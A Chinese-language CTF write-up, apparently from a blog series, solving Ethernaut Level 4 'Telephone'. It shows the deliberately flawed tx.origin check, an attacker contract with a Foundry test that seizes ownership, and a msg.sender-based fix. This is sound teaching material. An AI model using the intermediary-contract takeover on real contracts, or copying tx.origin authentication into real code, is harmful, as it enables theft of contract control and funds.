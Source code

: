 ```yaml
---
title: 'Ethernaut Level 4: Telephone - tx.origin vs msg.sender 身份验证绕过'
date: 2025-01-25 15:00:00
updated: 2025-01-25 15:00:00
categories:
  - Ethernaut 系列
  - 基础攻击篇 (1-10)
tags:
  - Ethernaut
  - Foundry
  - tx.origin
  - msg.sender
  - 身份验证绕过
  - 智能合约安全
  - Solidity
series: Ethernaut Foundry Solutions
excerpt: "深入理解 tx.origin 和 msg.sender 的区别，学习如何利用中间合约绕过身份验证机制。"
---
```


# 🎯 Ethernaut Level 4: Telephone - tx.origin vs msg.sender 身份验证绕过

> **关卡链接**: [Ethernaut Level 4 - Telephone](https://ethernaut.openzeppelin.com/level/4)  
> **攻击类型**: 身份验证绕过、中间合约攻击  
> **难度**: ⭐⭐☆☆☆

## 📋 挑战目标

1. **获取合约控制权** - 成为 `Telephone` 合约的 `owner`
2. **理解身份机制** - 掌握 `tx.origin` 和 `msg.sender` 的区别

## 🔍 漏洞分析

### 合约源码分析

```solidity
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        // 🚨 漏洞：使用 tx.origin 进行身份验证
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

### 关键概念对比

| 属性 | `msg.sender` | `tx.origin` |
|------|--------------|-------------|
| **定义** | 直接调用者 | 交易发起者 |
| **变化** | 每次调用都可能变化 | 整个交易链中不变 |
| **安全性** | ✅ 安全 | ❌ 危险 |
| **推荐使用** | 身份验证 | 仅用于日志记录 |

### 攻击原理

当我们通过中间合约调用时：
- `tx.origin` = 用户地址 (交易发起者)
- `msg.sender` = 攻击合约地址 (直接调用者)
- 由于 `tx.origin != msg.sender`，条件满足，可以修改 owner

## 💻 Foundry 实现

### 攻击合约代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "../src/Telephone.sol";

contract TelephoneAttacker {
    Telephone public target;
    
    constructor(address _target) {
        target = Telephone(_target);
    }
    
    function attack(address _newOwner) public {
        // 通过中间合约调用，使 tx.origin ≠ msg.sender
        target.changeOwner(_newOwner);
    }
}

contract TelephoneTest is Test {
    Telephone public telephone;
    TelephoneAttacker public attacker;
    
    address public user = makeAddr("user");
    address public newOwner = makeAddr("newOwner");

    function setUp() public {
        telephone = new Telephone();
        attacker = new TelephoneAttacker(address(telephone));
    }

    function testTelephoneExploit() public {
        vm.startPrank(user);
        
        // 通过中间合约攻击
        attacker.attack(newOwner);
        
        vm.stopPrank();
        
        // 验证攻击成功
        assertEq(telephone.owner(), newOwner);
        console.log("Attack successful! New owner:", telephone.owner());
    }
}
```

## 🛡️ 防御措施

### 使用 msg.sender 进行身份验证

```solidity
contract SecureTelephone {
    address public owner;
    
    modifier onlyOwner() {
        require(msg.sender == owner, "Not the owner");
        _;
    }
    
    function changeOwner(address _newOwner) public onlyOwner {
        owner = _newOwner;
    }
}
```

## 🎯 总结

Telephone 关卡教导我们：
- ✅ 永远不要使用 `tx.origin` 进行身份验证
- ✅ 使用 `msg.sender` 进行安全的身份检查
- ✅ 理解调用链中的身份传递机制

---

## 🔗 相关链接

- **[上一关: Level 3 - Coin Flip](/2025/01/25/ethernaut-level-03-coinflip/)**
- **[下一关: Level 5 - Token](/2025/01/25/ethernaut-level-05-token/)**
- **[系列目录: Ethernaut Foundry Solutions](/2025/01/25/ethernaut-foundry-solutions-series/)**
- **[GitHub 项目](https://github.com/XuHugo/Ethernaut-Foundry-Solutions)**